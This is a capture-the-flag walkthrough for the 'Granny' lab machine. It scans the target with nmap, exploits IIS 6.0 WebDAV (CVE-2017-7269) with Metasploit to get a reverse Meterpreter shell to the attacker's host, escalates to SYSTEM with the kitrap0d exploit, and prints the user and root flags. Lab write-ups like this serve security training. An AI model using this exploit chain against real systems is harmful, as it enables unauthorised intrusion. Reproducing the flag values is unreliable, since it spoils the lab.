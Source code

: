 # Granny

## SYN Scan
```
nmap -sS -sV -O -p- -v -Pn -T4 -oA nmap/full_syn 10.10.10.15

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## RCE via Vulnerable IIS Version
`Microsoft IIS httpd 6.0` causes RCE.

CVE-2017-7269 => https://www.cvedetails.com/cve/CVE-2017-7269/

Buffer overflow in the ScStoragePathFromUrl function in the WebDAV service in `Internet Information Services (IIS) 6.0` in `Microsoft Windows Server 2003 R2` allows remote attackers to execute arbitrary code via a long header beginning with `If: <http://` in a PROPFIND request, as exploited in the wild in July or August 2016.

### Exploitation Using Metasploit Module
```
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > check
[+] 10.10.10.15:80 - The target is vulnerable.

msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > exploit

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.11:4444 -> 10.10.10.15:1030) at 2021-03-27 18:12:08 +0300

meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.

meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 1000 created.
Channel 4 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\>whoami
whoami
nt authority\network service
```

## Privilege Escalation
```
msf6 exploit(windows/local/ms10_015_kitrap0d) > exploit

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Launching notepad to host the exploit...
[+] Process 3756 launched.
[*] Reflectively injecting the exploit DLL into 3756...
[*] Injecting exploit into 3756 ...
[*] Exploit injected. Injecting payload into 3756...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 3 opened (10.10.14.11:4444 -> 10.10.10.15:1034) at 2021-03-27 19:27:11 +0300

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## The User Flag
```
C:\Documents and Settings\Lakis\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\Documents and Settings\Lakis\Desktop

04/12/2017  09:19 PM    <DIR>          .
04/12/2017  09:19 PM    <DIR>          ..
04/12/2017  09:20 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  18,126,352,384 bytes free

C:\Documents and Settings\Lakis\Desktop>type user.txt
type user.txt
700c5dc163014e22b3e408f8703f67d1
```

## The Root Flag
```
C:\Documents and Settings\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\Documents and Settings\Administrator\Desktop

04/12/2017  04:28 PM    <DIR>          .
04/12/2017  04:28 PM    <DIR>          ..
04/12/2017  09:17 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  18,126,356,480 bytes free

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
aa4beed1c0584445ab463a6747bd06e9
```
